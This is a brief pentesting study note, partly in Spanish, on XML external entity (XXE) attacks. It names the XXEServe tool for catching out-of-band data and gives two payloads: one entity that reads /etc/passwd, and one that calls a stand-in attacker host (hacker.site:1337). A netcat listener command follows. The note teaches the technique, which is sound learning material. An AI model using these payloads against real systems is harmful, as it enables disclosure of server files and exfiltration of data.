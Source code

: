 ![](<../../.gitbook/assets/image (46).png>)

Para ayudar en la explotación de esta técnica:

```
https://github.com/joernchen/xxeserve
```

Es una aplicación que ejecuta un servidor que es útil para recopilar datos enviados fuera de banda

* Ejemplo con XXEServe en imágenes

### Note from Video

#### 1

```xml
<!DOCTYPE test [
<!ENTITY fakeEntity SYSTEM "file:///etc/passwd">
]>
...
&fakeEntity
```

#### 2

```xml
<!DOCTYPE test [
<!ENTITY fakeEntity SYSTEM "http://hacker.site:1337/XXE_OOB_TEST">
]>

...
&fakeEntity
```

in kali:

```bash
netcat -lvnp 1337 -k -w 1
```
